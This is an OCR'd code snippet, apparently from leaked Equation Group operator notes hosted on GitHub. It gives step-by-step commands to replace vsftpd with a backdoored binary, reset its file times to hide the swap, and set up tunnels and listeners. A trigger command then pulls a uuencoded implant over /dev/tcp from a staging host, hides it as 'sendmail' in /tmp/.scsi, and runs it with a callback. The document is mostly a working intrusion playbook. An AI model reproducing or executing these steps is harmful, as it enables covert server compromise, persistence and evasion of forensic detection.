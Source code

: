 ```
md5sum vsftpd

-put /current/up/it it
./it /usr/sbin/vsftpd

cp /usr/sbin/vsftpd ?
-put /current/up/vsftpd vsftpd
cp vsftpd /usr/sbin/vsftpd
# use itime results to reset vsftpd times to original settings
./it /usr/sbin/vsftpd

service vsftpd stop
service vsftpd start


########  Trigger porked vsftpd

### in local window, get nopen ready
packrat -z NETCAT_PORT

### on redirector, get nopen listener ready
-nrtun NOPEN_PORT


### on redirector, set up tunnel, use a "pork source port" from list below
-tunnel
l 21 TARGET_IP 21 SPORT
r NETCAT_PORT

### in scripted local window, send pork trigger

#Usage: ./client -t|-u timeadj sport hostname dport command
#sport: 3 51 3854 5671 8213 12634 16798 23247 35139 47923 53246 63201

#./client -t|-u [tcp/udp] timeadj sport [(valid source ports for the server are: 3, 51, 3854, 5671, 8213, 12634, 16798, 23247, 35139, 47923, 53246, 63201)]  hostname[Host IP]  dport [(port on which PORKified daemon is listening)] command"

./client -t 0 SPORT 127.0.0.1 21 "cd /tmp;mkdir -p .scsi && cd .scsi; cat < /dev/tcp/PITCH_IP/NETCAT_PORT > sendmail.uu && uudecode sendmail.uu && chmod 755 sendmail && PATH=. S=1 D=-cPITCH_IP:NOPEN_PORT ./sendmail"


```
Source: [https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/33810162273edda807363237ef7e7c5ece3e4100/Linux/doc/old/etc/user.mission.generic.COMMON.old#L4447-L4505)


